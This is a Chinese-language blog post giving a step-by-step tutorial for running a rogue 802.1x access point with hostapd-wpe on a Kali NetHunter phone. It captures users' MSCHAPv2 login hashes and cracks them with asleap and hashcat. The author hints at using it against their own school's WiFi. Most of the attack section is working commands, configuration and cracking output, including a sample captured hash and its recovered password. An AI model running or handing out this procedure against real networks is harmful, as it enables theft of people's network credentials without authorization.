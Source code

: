 ```yaml
---
layout: single
title: 使用Kali Nethunter破解802.1x安全性WiFi
date: 2017-02-10 12:25:57
categories: "Hack"
tags:
- 黑客手机
- 无线安全
- Kali
header:
  teaser: /assets/images/nethunter-8021x/1x_test.jpg
---
```


# 背景
笔者学校的无线网络采用1x认证方式，所以你懂的。

之前参考GitHub上的一个项目<https://github.com/OpenSecurityResearch/hostapd-wpe>在Kali2.0上部署成功，但是在手机端的情况比较不同，猜测是因为架构有一定区别所导致的，而且该网页上的Hostapd版本比较低，遂继续查找，找到了aircrack-ng的GitHub的某一个页面上展示了Hostapd-wpe的用法<https://github.com/aircrack-ng/aircrack-ng/tree/master/patches/wpe/hostapd-wpe>

页面上写的比较详细，但是实践中笔者还是踩了不少坑，下面开始：

**注意，本文在Kali 2.0及以上的版本中应该也适用！但是本人没有测试，还请测试通过的朋友留个言**

# 依赖
- pkg-config
- libssl 1.0
- libnl3 (and genl)
- sqlite3

安装依赖：
```shell
apt-get install libssl1.0-dev libnl-genl-3-dev libnl-3-dev pkg-config libsqlite3-dev
```

由于手机上敲指令过于蛋疼，笔者自己ssh到了手机上，在Kali的应用中可以直接打开SSH服务。

用ftp或者wget之类的将patch文件下载到手机上，这里笔者的路径是 ~/1x/ ,执行：

注:补丁文件<https://raw.githubusercontent.com/aircrack-ng/aircrack-ng/master/patches/wpe/hostapd-wpe/hostapd-wpe.patch>

## 下载、编译、安装
```shell
# 下载
wget http://hostap.epitest.fi/releases/hostapd-2.6.tar.gz
tar -zxf hostapd-2.6.tar.gz
cd hostapd-2.6
# 打补丁
patch -p1 < ../hostapd-wpe.patch
cd hostapd
# 编译安装
make
make install
make wpe
```

## 制作证书
```shell
cd /etc/hostapd-wpe/certs
./bootstrap
make install
```
这里会出现关于gendh命令未找到的错误，原因是openssl将gendh已经换成了dhparam,在该目录下的Makefile中将gendh替换为dhparam即可。

## 运行
请注意在Nethunter中已经预先安装了hostapd，但是那个版本的hostapd是不支持1x的。所以请切换到我们部署的hostapd目录下，运行：
```shell
./hostapd ./hostapd-wpe.conf
```

这里的配置文件需要修改，需要修改的地方有：
```shell
interface=wlan1
ssid=YOUR_SSID
driver=nl80211
hw_mode=g
#fragm_threshold=-1
#rts_threshold=-1
# 以上两行需要添加注释
```

之后再运行，即可成功。日志的数据为该目录下的hostapd-wpe.log文件，其记载了用户的用户名和MSCHAPv2认证hash值。

# 破解
由于采用MSCHAPv2认证，所以密码并不会明文显示。主要有两种方法，其一是直接用系统中的工具asleep进行破解，举个栗子：

## asleep
采集到的日志样例：
```shell
username: jdslfkjs
challenge: bc:87:6c:48:37:d3:92:6e
response: 2d:00:61:59:56:06:02:dd:35:4a:0f:99:c8:6b:e1:fb:a3:04:ca:82:40:92:7c:f0
```

执行：
```shell
$ asleap -C bc:87:6c:48:37:d3:92:6e -R 2d:00:61:59:56:06:02:dd:35:4a:0f:99:c8:6b:e1:fb:a3:04:ca:82:40:92:7c:f0 -W wordlist
asleap 2.2 - actively recover LEAP/PPTP passwords. <jwright@hasborg.com>
hash bytes:        b1ca
NT hash:           e614b958df9df49ec094b8730f0bb1ca
password:          bradtest
```

其中wordlist需要自己准备

## hashcat
另一种方法是利用hashcat进行破解，其好处是可以根据掩码实时生产字典爆破而且可以使用GPU+CPU资源进行破解，速度比较科学。

关于hashcat的获取，请去官方网站<https://hashcat.net/>下载。

### hashcat brief introduction
```shell
hashcat [选项] ... hash|hashfile|hccapfile [字典|掩码|路径]
-m, --hash-type        /哈希值类型，我们使用5500 NetNTLMv1
-a, --attack-mode      /攻击模式，这里使用3 暴力破解
-d, --opencl-devices   /使用设备，1：CPU 2：GPU 3：FPGA，DSP
-o, --outfile          /输出文件路径-i, --incerment        /掩码破击时使用，设置掩码上下限
```

笔者这里使用的参数如下：
```shell
./hashcat64.exe -d 1 -a 3 -m 5500 -o "output path" -i --increment-min=1 --increment-max=8 -1 ?l "input filepath" ?1?1?1?1?1?1?1?1
```

其中，-1 ?l 代表定义1号掩码的格式为所有小写字母，参考掩码：
### hashcat maskcode
```shell
? | Charset
===+=========
l | abcdefghijklmnopqrstuvwxyz
u | ABCDEFGHIJKLMNOPQRSTUVWXYZ
d | 0123456789
s |  !"#$%&'()*+,-./:;=?@[\]^_`{|}~
a | ?l?u?d?s
b | 0x00 - 0xff
```

将之前得到的输出结果按照
username::::response:challenge
的格式存储在文本文档中，注意去掉hash值中的冒号。运行hashcat

# 后记

为了方便起见，可以将其作为用户定义脚本存储在nethunter的custom command中：
![OP3 customcommand](/assets/images/nethunter-8021x/custom_command.jpg)

运行截图：
![OP3 test1x](/assets/images/nethunter-8021x/1x_test.jpg)
